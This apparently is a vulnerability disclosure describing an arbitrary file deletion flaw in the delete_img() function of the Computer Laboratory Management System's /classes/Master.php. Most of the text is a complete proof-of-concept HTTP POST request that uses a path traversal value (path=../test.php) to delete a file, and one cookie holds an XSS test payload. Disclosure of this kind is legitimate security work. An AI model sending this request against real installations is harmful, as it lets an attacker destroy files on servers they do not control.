 ### rary file deletion exists in the /classes/Master.php file of the Computer Laboratory Management System, caused by the `delete_img()` function.

**code analysis:**

![QQ20240830-152841](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-152841.png)

You can change `$path` to any file name by overriding it with a variable.

**Demonstration of the vulnerability**

Create the file test.php in the php_lms directory

![QQ20240830-153538](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153538.png)

![QQ20240830-153648](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153648.png)

```
POST /classes/Master.php?f=delete_img HTTP/1.1
Host: localhost:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://localhost:98
Connection: keep-alive
Referer: http://localhost:98/?XDEBUG_SESSION_START=14848
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=leagsbs030cq18dj30osfipt3t; XDEBUG_SESSION=14848
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

path=../test.php
```

Go back to the directory and see that the file has been deleted successfully

![QQ20240830-153718](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153718.png)
